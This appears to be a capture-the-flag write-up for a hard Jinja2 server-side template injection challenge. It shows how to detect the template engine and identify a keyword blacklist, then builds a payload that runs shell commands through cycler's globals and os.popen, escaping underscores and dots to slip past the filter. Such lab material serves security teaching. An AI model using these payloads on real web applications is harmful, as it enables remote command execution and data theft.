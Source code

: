 # Challenge Name
Genie 2.0

# Description
It seems that you have some understanding, its only going to get harder.

# Difficulty
Hard

# Guide
How do you determine the presence of a SSTI vulnerability and template engine used?   
Click [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to find out more!

After reading the link, you should know that by testing by injecting a mathematical expression. 
```
{{ 7 * '7' }}
``` 
The output is `7777777`, we can determine that it using Jinja2.

If you proceed to test out some of the common payloads found online, there will be an error that the input is invalid. You should try experimenting with different inputs to determine what could be on the blacklist.

After some testing you should be able to get some of the blacklisted items. 
```
'class', 'request', 'self', 'config', '_'
```

### The Payload   
To be able to execute system commands, we can leverage on Jinja2's access to Python objects, methods, and modules, particularly the `os` module.

Refer [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for some common payloads! The following is a great point starting point with only `_` and `.` in the blacklist.

```
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

`cycler`: a built-in object in Jinja2 which acts as the entry point
`.__init__`: the method to initialize cycler   
`.__globals__`: retrieve the global scope   
`.os`: access the os module   
`popen('')`: the function which allows for execution of commands  
`.read()`: read the output of the executed command   

So how can we by bypass the `.` and `_`.   
We can use encoding methods to bypass the blacklist. However there will be a syntax error because of `cycler\`.   
To bypass the `.` we can access python object through a dictionary style. This would allow `cycler['__init__']` to access the same value as `cycler.__init__`.    

So from the original payload which uses dot notation, instead we can access object properties using dictionary style.
```
{{ cycler['__init__']['__globals__']['os']['popen']('cat flag.txt')['read']() }}
```

Next we can bypass the `_` with its hexadecimal representation `\x5f` and we can get the flag.

```
{{ cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['os']['popen']('cat flag\x2etxt')['read']() }}
```

# Hints
Tried encoding?

# Resources
https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection   
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

# Solution
There is a blacklist `'class', 'request', 'self', 'config', '_'`

The payload used.
```
{{ cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['os']['popen']('cat flag\x2etxt')['read']() }}
```